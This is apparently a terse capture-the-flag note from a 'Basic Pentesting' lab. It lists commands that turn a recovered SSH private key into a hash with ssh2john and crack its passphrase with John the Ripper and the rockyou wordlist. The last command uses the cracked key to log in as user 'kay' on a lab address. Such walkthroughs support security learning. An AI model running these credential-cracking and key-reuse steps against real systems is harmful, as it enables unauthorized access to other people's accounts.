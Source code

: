 -   /opt/share/john/ssh2john.py id_rsa > hash

[[Basic Pentesting/id_rsa]] 


[[Basic Pentesting/id_rsa]]


[[hash]]

-   john hash.md --wordlist=/opt/rockyou.txt | tee creckedhash.md   

[[creckedhash]]

- chmod 600 id_rsa

- ssh -i id_rsa kay@10.10.239.200
